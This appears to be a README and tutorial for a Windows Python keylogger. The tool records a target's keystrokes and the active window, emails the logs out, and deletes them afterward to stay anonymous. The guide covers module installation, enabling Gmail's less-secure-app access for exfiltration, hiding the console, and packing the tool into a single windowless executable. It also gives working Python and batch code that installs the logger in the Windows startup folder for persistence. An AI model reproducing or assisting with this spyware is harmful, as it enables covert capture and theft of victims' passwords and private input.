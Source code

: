 # CSL_KeyLogger_Windows
A Keylogger written in Python 3.6 that takes in user input, stores the data log, and then sends it to an email address. The data log is destroyed after the email is sent to remain anonymous.

<h2>Windows installation of python modules:</h2>
<strong>Download pyWin32 and pyHook modules from here, these libraries are required:</strong>
https://www.lfd.uci.edu/~gohlke/pythonlibs/

<strong>Troubleshooting:</strong>
<ul>
 	<li>-ensure that your python version matches the module you are installing, or you will get errors when installing the modules.</li>
 	<li>-If you get an error, try installing the alternate version of the same version of the module as your python version.
An example is if you download pyHook-1.5.1-cp36-cp36m-win_amd64 and you get an error, then try pyHook-1.5.1-cp36-cp36m-win32.</li>
 	<li>-majority of the times an error occurs when installing modules is usually from either a mismatch of versions with the module and python, or pip is not up to date.</li>
 	<li>-to update pip
python -m pip install --upgrade pip</li>
</ul>
&nbsp;

<hr />

<h1>Guide on how to install Python Modules on Windows:</h1>
<strong>Open up the windows Command prompt as admin:</strong>
<ul>
 	<li>change to d drive if you have pythons executable here (in my case its in the d drive):
d:</li>
 	<li>change directory to the python exe:
cd D:\YourPath\venv\Scripts</li>
 	<li>now we want to install the pyHook module from this directory with pip, (my path is the following, change the path to wherever you have stored the .whl module):
py -3.6 -m pip install C:\Users\YourPath\pywin32-223-cp36-cp36m-win32.whl</li>
 	<li>now we want to install the pyWin32 module from this library with pip, (my path is the following, change the path to wherever you have stored the .whl module):
py -3.6 -m pip install C:\Users\YourPath\pywin32-223-cp36-cp36m-win32.whl</li>
</ul>
&nbsp;

<img src="https://offseclab.com/wp-content/uploads/2018/03/installinglibraries.png" />

<hr />

<h2>Troubleshooting:</h2>
<ul>
 	<li><strong>SMTPAuthenticationError when sending mail using gmail FIX:</strong></li>
</ul>
When using googles mail server, the email that you are using will be blocked for any sign-in attempts with the python program unless better security standards are in place. Because of this we need to enable access to less secure apps to allow us to send emails to this gmail account with the python program.

Sign into the gmail account that you want to use with the python program, and press the <strong>Turn On</strong> toggle button:
<a href="https://www.google.com/settings/security/lesssecureapps">https://www.google.com/settings/security/lesssecureapps</a>

<img  src="https://offseclab.com/wp-content/uploads/2018/03/toggle.png" />
<ul>
 	<li><strong>Python IDLE issues, keylogger is not picking up keys FIX:</strong></li>
</ul>
If you are dealing with this issue with the IDLE, then delete the contents in the .idlerc folder located within your user profile of your computer. To find the folder check your user profile name followed by %APPDATA% and look for a folder called.<b>".idlerc"</b>. Delete everything in that folder, and you should be able to run the program through python IDLE.

<img  src="https://offseclab.com/wp-content/uploads/2018/03/deletethis.png"  />

<h2>Output:</h2>
<strong>Running the Program:</strong>
Open IDLE, or PyCharm, or whatever text editor, or IDE that you prefer for python and run the program. The python program outputs the values it picks up from the key presses using the print statements. This is a good way to see how the keylogger works. If you want to hide the DOS shell window that appears when running the python program, change the file extension from <b>".py"</b> to <b>".pyw"</b>.


<strong>Here is an example of the program running. This is the output after first going to notepad and typing some words, then going to google. This is to show how the program marks the windows/programs the target is currently on.</strong>


<img  src="https://offseclab.com/wp-content/uploads/2018/03/python2.png" />

<img  src="https://offseclab.com/wp-content/uploads/2018/03/python3.png" />

<img  src="https://offseclab.com/wp-content/uploads/2018/03/python4.png"  />

<strong>This is how the log file(s) store the logged keys:</strong>
<img  src="https://offseclab.com/wp-content/uploads/2018/03/python5.png"  />

<strong>This is the sent keys logged to the email specified:</strong>
<img  src="https://offseclab.com/wp-content/uploads/2018/03/python6.png"  />

<hr />

<h2>Creating the Executable:</h2>
When creating the executable file you want to use the python module, <b>pyinstaller</b>. This allows the program to be ran anywhere. The first thing required is the pyinstaller module, so install it using pip:

<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">
pip install pyinstaller
</pre>
</div>

Then type the following command on your windows command prompt to create the executable:
<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">
pyinstaller -w -F name_of_python_script.py
</pre>
</div>

The -w removes the opening of prompt window, while -F ensures that the executable is a single file that includes everything, rather then a folder. Once that's done navigate to the <b>dist</b> folder within the folder of your newly created python script, and grab the exe file.

The file is now created.

<hr />

<h2>Persistenly Run KeyLogger on Startup:</h2>
On Windows devices there is a startup folder that determines which applications will run on startup. This folder is where some attackers will store their keyloggers, in some cases they will mask it as a another program. Essentially this is done by implementing a python function that creates a bat file that runs the <b>'start'</b> command, followed by the file path to the keylogger to execute the program. Or a general bat file stored in the startup folder that contains the following script with the commands will work.

Here is the python function that can be included in the program which creates the bat file. (I have included the full program with log deletion and bat startup under "key_log_win_withBATCreation.pyw"):
<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">import getpass as gp
usern = gp.getuser()

def bat_create_file(path_log=""):
    bat_path = r'C:\Users\%s\YourPath\Startup' % usern
    with open(bat_path + '\\' + "open.bat", "w+") as bat_file:
        bat_file.write(r'start "" %s' % path_log)

bat_create_file(path_log)
</pre>
</div>
Sometimes a separate bat file is used instead of having a built-in function:
<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">REM Place in startup folder
start "" path_log/myProgram.exe
exit</pre>
</div>


